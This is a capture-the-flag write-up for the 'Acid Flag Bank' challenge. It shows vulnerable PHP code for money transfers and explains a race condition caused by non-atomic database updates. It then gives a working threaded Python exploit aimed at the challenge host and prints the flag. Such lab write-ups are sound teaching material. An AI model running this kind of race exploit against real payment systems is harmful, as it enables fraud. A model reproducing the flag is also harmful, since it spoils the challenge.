


## ACID FLAG BANK  

race condition



The challenge revolves around a database, which it uses to manage and update the account balances in the database.  

There is a `buyFlag()` method that allows us to use any account in the database to purchase the flag, as long as the balance is above `$247`.  

```php
class ChallDB
{
    public function __construct($flag)
    {
        $this->pdo = new SQLite3('/tmp/users.db');
        $this->flag = $flag;
    }
 
    public function updateFunds($id, $funds)
    {
        $stmt = $this->pdo->prepare('update users set funds = :funds where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $stmt->bindValue(':funds', $funds, SQLITE3_INTEGER);
        return $stmt->execute();
    }

    public function resetFunds()
    {
        $this->updateFunds(1, 247);
        $this->updateFunds(2, 0);
        return "Funds updated!";
    }

    public function getFunds($id)
    {
        $stmt = $this->pdo->prepare('select funds from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        return $result->fetchArray(SQLITE3_ASSOC)['funds'];
    }

    public function validUser($id)
    {
        $stmt = $this->pdo->prepare('select count(*) as valid from users where id = :id');
        $stmt->bindValue(':id', $id, SQLITE3_INTEGER);
        $result = $stmt->execute();
        $row = $result->fetchArray(SQLITE3_ASSOC);
        return $row['valid'] == true;
    }

    public function dumpUsers()
    {
        $result = $this->pdo->query("select id, funds from users");
        echo "<pre>";
        echo "ID FUNDS\n";
        while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
            echo "{$row['id']}  {$row['funds']}\n";
        }
        echo "</pre>";
    }

    public function buyFlag($id)
    {
        if ($this->validUser($id) && $this->getFunds($id) > 247) {
            return $this->flag;
        } else {
            return "Insufficient funds!";
        }
    }

    public function clean($x)
    {
        return round((int)trim($x));
    }
}
```

When we dump the users, we will notice that we only have two accounts, and one of them is already maxed out at `$247`, making it impossible to buy the flag.  



However, if we look at the money transfer implementation, we can spot the vuln. There are two concurrent `updateFunds()` calls, and these aren't in a single transaction, violating ACID as these operations aren't atomic.  

This gives us a race condition vuln, where we can perform multiple transfers before the actual commit is triggered. If we are able to transfer `$247` from account `1` to account `2` twice, we win.  

```php
elseif (isset($_GET['to'],$_GET['from'],$_GET['amount'])) {
    $to = $db->clean($_GET['to']);
    $from = $db->clean($_GET['from']);
    $amount = $db->clean($_GET['amount']);
    if ($to !== $from && $amount > 0 && $amount <= 247 && $db->validUser($to) && $db->validUser($from) && $db->getFunds($from) >= $amount) {
        $db->updateFunds($from, $db->getFunds($from) - $amount);
        $db->updateFunds($to, $db->getFunds($to) + $amount);
        echo "Funds transferred!";
    } else {
        echo "Invalid transfer request!";
    }
}
```

We can write a script to exploit the race condition, giving us the flag.  

```python
import threading
import requests
import time

url = "https://74bf5779916301b7.247ctf.com/"

THREADS = 2

def transfer(barrier):
    barrier.wait()
    requests.get(f'{url}?from=1&to=2&amount=247')

while True:
    requests.get(f"{url}/reset")

    barrier = threading.Barrier(THREADS)
    threads = []

    print("> Launching race")
    for _ in range(THREADS):
        t = threading.Thread(target=transfer, args=(barrier,))
        t.start()
        threads.append(t)

    for t in threads:
        t.join()

    print("> Trying to buy flag")
    res = requests.get(f"{url}/?flag=1&from=2")

    if "insufficient" not in res.text.lower():
        print("Flag:", res.text)
        break

    print("> Race failed")
    time.sleep(0.5)
```

Flag: `247CTF{7cc47319f32d13b2fd9ba542a2670d71}`